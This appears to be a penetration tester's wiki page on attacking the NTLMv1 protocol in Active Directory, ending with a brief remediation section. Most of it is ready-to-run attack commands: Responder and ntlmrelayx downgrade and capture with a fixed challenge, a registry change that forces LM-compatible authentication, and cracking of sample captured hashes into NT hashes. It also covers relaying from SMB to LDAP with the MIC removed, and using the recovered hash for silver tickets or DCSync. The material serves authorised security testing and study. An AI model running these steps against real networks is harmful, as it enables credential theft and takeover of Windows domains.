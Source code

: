 ```yaml
---
title: Attacking NTLMv1
---
```


NTLMv1 is the first version of the NTLM authentication protocol, the predecessor of NTLMv2 and insecure in multiple ways.

# Discovery

Search for [[notes/ad/gpo|GPOs]] that enable NTLMv1 by setting `HKLM\System\CurrentControlSet\control\LSA\LMCompatibilityLevel` to `2` or lower.

If you already have admin rights on a computer you can check this registry value trough *Remote Registry* ([source](https://github.com/Porchetta-Industries/CrackMapExec/pull/640)).

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb 192.168.178.0/24 -u jdoe -p 'passw0rd' -M ntlmv1
    ~~~

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass dc01.corp.local query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' -v LMCompatibilityLevel
    ~~~

# Capture & Crack

[[notes/ad/ntlm-relay-source|Coerce NTLM authentication]] from your target and capture the responses.

Configure a static challenge.

~~~ bash
sudo sed -i 's/^Challenge = .*/Challenge = 1122334455667788/' /usr/share/responder/Responder.conf
~~~

Then try different downgrade techniques ([source](https://twitter.com/hackanddo/status/1420135330171207685), [source](https://twitter.com/ShitSecure/status/1599722053552066561)).

~~~ bash
sudo responder -A --disable-ess -I eth0
sudo responder -A --lm -I eth0
sudo responder -A --lm --disable-ess -I eth0
sudo impacket-ntlmrelayx -smb2support -ntlmchallenge 1122334455667788 -of ./hashes.txt
sudo impacket-ntlmrelayx -ntlmchallenge 1122334455667788 -of ./hashes.txt
~~~

Alternatively on Windows with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (untested).

~~~ powershell
reg.exe add HKLM\System\CurrentControlSet\Control\Lsa /v LMCompatibilityLevel /t REG_DWORD /d 0 /f
Invoke-Inveigh -ConsoleOutput Y -Challenge 1122334455667788
~~~

Then continue with [[notes/cryptography/hash-cracking]] to turn the NTLMv1 response into an NT hash.
NTLMv1 is based on DES and cryptographically broken, because the DES key space can be fully enumerated with FPGAs.
[crack.sh](https://crack.sh) provides a service for cracking DES.

a) NTLMv1 without SSP

[crack.sh](https://crack.sh) cracks this responses for free trough a huge rainbow table.

Responder output: `[SMB] NTLMv1 Hash : hashcat::DUSTIN:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788`  
Input for [crack.sh](https://crack.sh): `NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595`  

b) NTLMv1 with SSP/ESS

Such responses can be easily identified, because they contain a large amount of consecutive zeros.
Pass the output from Responder to [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) to get the input for [crack.sh](https://crack.sh).
Cracking requires full brute force and is not free.

~~~ bash
python3 ./ntlmv1.py --ntlmv1 'hashcat::DUSTIN:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788'
~~~

If [crack.sh](https://crack.sh) is currently down you can crack both NTLMv1 response variants with a beefy GPU and [[notes/tools/hashcat]].
See [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) for more details.
Responses captured from users can be looked up in a huge database with [shuck.sh](https://shuck.sh).

In any case the resulting NT hash can be used to forge a RC4 [[notes/ad/silver-ticket]], [[notes/ad/delegate2thyself]] or perform a [[notes/ad/dcsync]] in case of a domain controller.

References:

- [NTLMv1 Multitool](https://github.com/evilmog/ntlmv1-multi)
- [Cracking NETLM/NETNTLMv1 authentication](https://crack.sh/netntlm/)
- [NetNTLMtoSilverTicket](https://github.com/notmedic/netntlmtosilverticket)

# Relay

Computers that still support NTLMv1 are a wonderful [[notes/ad/ntlm-relay-sink]], because NTLMv1 allows cross-protocol relaying from SMB to LDAP by dropping the MIC.
Additionally relay protections like SMB Signing and LDAP Singing don't apply to NTLMv1 and relaying from SMB to TLS endpoints like HTTPS and LDAPS is possible as long as EPA is not set to `required` because NTLMv1 does not support Channel Binding.

[[notes/ad/ntlm-relay-from-smb|Coerce NTLM authentication over SMB]] from a valuable computer and [[notes/ad/ntlm-relay-to-ldap|relay to LDAP]] on a domain controller.

~~~ bash
sudo impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic -i -t ldap://dc01.corp.local
~~~

References:

- [NetNTLMv1 Downgrade to Compromise](http://web.archive.org/web/20230901141443/https://www.r-tec.net/r-tec-blog-netntlmv1-downgrade-to-compromise.html)
- [Practical Attacks against NTLMv1](https://web.archive.org/web/20220916075004/https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/)
- [Relaying 101: NTLM Downgrade Attack](http://web.archive.org/web/20220822082322/https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack)
- [NTLMv1 vs NTLMv2: Digging into an NTLM downgrade attack](http://web.archive.org/web/20221122220544/https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)

# Remediation

1. Analyze event 4624 on DCs to find applications that fall back to NTLMv1.
2. Disable NTLMv1 by setting the registry value `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\LMCompatibilityLevel` to `3` or higher.

References:

- [Audit use of NTLMv1 on a domain controller](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/audit-domain-controller-ntlmv1)
